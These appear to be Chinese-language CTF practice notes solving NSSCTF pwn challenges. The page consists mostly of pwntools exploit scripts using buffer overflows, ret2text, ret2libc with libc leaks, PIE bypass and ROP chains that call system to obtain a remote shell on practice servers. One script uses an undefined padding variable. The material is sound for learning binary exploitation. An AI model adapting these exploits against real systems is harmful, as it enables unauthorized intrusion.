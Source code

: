 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

#NSSCTF_pwn_刷题笔记page(1)

###[SWPUCTF 2021 新生赛]gift_pwn

```python
from pwn import *
io = remote('node4.anna.nssctf.cn',28991)
padding = 16+8
shell = 0x4005B6

payload = b'A'*padding+p64(shell)
io.sendline(payload)

io.interactive()
```

###[SWPUCTF 2021 新生赛]whitegive_pwn

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28982)
#io = gdb.debug('./附件')
elf = ELF('./附件')
padding = 16+8
pop_rdi = 0x0000000000400763

payload = b'A'*padding + p64(pop_rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])

io.sendline(payload)

puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

print(hex(puts_addr))

base_offset = puts_addr - 0x06f6a0
sys = 0x0453a0+base_offset
bin_sh = 0x18ce57+base_offset


payload1 = b'A'*padding+p64(pop_rdi)+p64(bin_sh)+p64(sys)
io.sendline(payload1)

io.interactive()
```

libc版本要另外搜索

###[CISCN 2019华北]PWN1

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 44
payload =b'A'*padding+p64(0x41348000)
io.sendlineafter(b'number.',payload)
io.interactive()
```

```python
from pwn import *
context.log_level = 'debug'
io = remote('node4.anna.nssctf.cn',28020)
padding = 56
payload =b'A'*padding+p64(0x4006be)
io.sendlineafter(b'number.',payload)
io.interactive()
```

### [NISACTF 2022]ReorPwn?

```shell
hs/nib/
```

### [BJDCTF 2020]babystack2.0

```python
from pwn import *
context.log_level = 'debug'
#io = process('./pwn')
#io = gdb.debug('./pwn')
io = remote('node4.anna.nssctf.cn',28485)
padding = 12+8+4
payload = b'A'*padding+p64(0x400726)

io.sendlineafter('name:\n',b'-1')

io.sendlineafter('name?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [HNCTF 2022 Week1]easync

`nc`进去找,格式为nssctf{}

### [BJDCTF 2020]babystack

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ret2text')
#io = gdb.debug('./ret2text')
io = remote('node4.anna.nssctf.cn',28587)
padding = 12+8+4
payload = b'A'*padding+p64(0x4006e6)

io.sendlineafter('name:\n',b'100')

io.sendlineafter('?\n',payload)
io.interactive()
#本地要栈对齐
```

ida判断的栈空间不正确,手动调试一下

### [SWPUCTF 2022 新生赛]Does your nc work？

`nc`进去找

### [NISACTF 2022]ezstack

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28318)
elf = ELF('./pwn')
padding = 72+4

payload = b'A'*padding + p32(0x8048512)+p32(0x804A024)

io.sendline(payload)
io.interactive()
```

`32`位程序调用函数方法与`64`位不同

### [watevrCTF 2019]Voting Machine 1

```python
from pwn import *
#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28007)
payload = b'A'*padding + p64(0x400807)

io.sendline(payload)
io.recvall()
io.interactive()
```

有后门函数...

### [NISACTF 2022]ezpie

```python
from pwn import *

#io = process('./pwn')
io = remote('node5.anna.nssctf.cn',28323)
padding = 44

io.recvuntil(b'gift!\n')
main_addr = eval(io.recvline().decode())
base_offset = main_addr - 0x770
shell_addr = base_offset+0x80F

payload = b'A'*padding +p32(shell_addr)

io.sendline(payload)
io.interactive()
```

主要是`pie`机制,和泄露`lib`差不多的思路

### [HGAME 2023 week1]test_nc

```shell
cat flag
```

### [GFCTF 2021]where_is_shell

```python
from pwn import *
#io = process('./shell')
io = remote('node4.anna.nssctf.cn',28065)
elf = ELF('./shell')
pop_rdi = 0x00000000004005e3 #: pop rdi ; ret
sys_addr = 0x400557
ret_addr = 0x0000000000400416 #: ret
padding = 0x10+8

payload = b'A'*padding+p64(ret_addr)+p64(pop_rdi)+p64(0x400541)+p64(elf.plt['system'])+p64(ret_addr)
io.sendline(payload)

io.interactive()
```

可以利用`system($0)`获得shell权限，`$0`在机器码中为 `\x24\x30`,`tips`函数中提供了相应的机器码,又一个小知识点

### [HNCTF 2022 Week1]easyoverflow

```shell
1111111111111111111111111111111111111111111111111111
```

参数覆盖,溢出`v4`覆盖`v5`
